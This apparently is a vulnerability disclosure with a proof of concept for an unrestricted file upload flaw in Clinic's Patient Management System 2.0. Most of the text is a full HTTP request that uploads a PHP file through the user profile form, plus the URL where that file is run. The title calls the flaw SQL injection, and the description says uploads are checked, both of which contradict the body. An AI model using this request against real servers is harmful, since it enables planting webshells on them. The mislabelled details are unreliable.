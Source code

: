 #### Title: Clinic's Patient Management System 2.0 SQLi
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 04.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
#### Version: 2.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Clinic's%20Patient%20Management%20System/Unrestricted%20file%20upload%20(RCE)/POC.md
#### Description：
##### At the file upload function, the application system checks the validity of the file type, format, and content uploaded by the user, so that attackers can upload Webshell (.php, .jsp, asp, etc.) malicious script files or files in unexpected formats, such as: HTML files, SHTML files, etc., at the same time, you can use characters such as directory jump or control the upload directory to directly upload files to the Web directory or any directory, which lead to the execution of arbitrary malicious script files on the remote server, thereby directly obtaining application system permissions.


#### Payload used:
`<?php phpinfo();?>`

### POC
```
POST /pms/update_user.php?user_id=1 HTTP/1.1
Host: localhost
Content-Length: 828
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHTbuuF5mdaA9K4Fw
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/pms/update_user.php?user_id=1
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=kbnmikgfhdo4qe7crgidipoqc9
Connection: close

------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="hidden_id"

1
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="display_name"

Administrator
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="profile_picture"; filename="rce.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="save_user"


------WebKitFormBoundaryHTbuuF5mdaA9K4Fw--
```

#### Access below URL:
`http://localhost/pms/user_images/1656897223rce.php`

![image](https://github.com/CyberThoth/CVE/blob/e447fdac9a76f3b5f97a8adb5d4343425fd61f0a/CVE/Clinic's%20Patient%20Management%20System/Unrestricted%20file%20upload%20(RCE)/1.png)

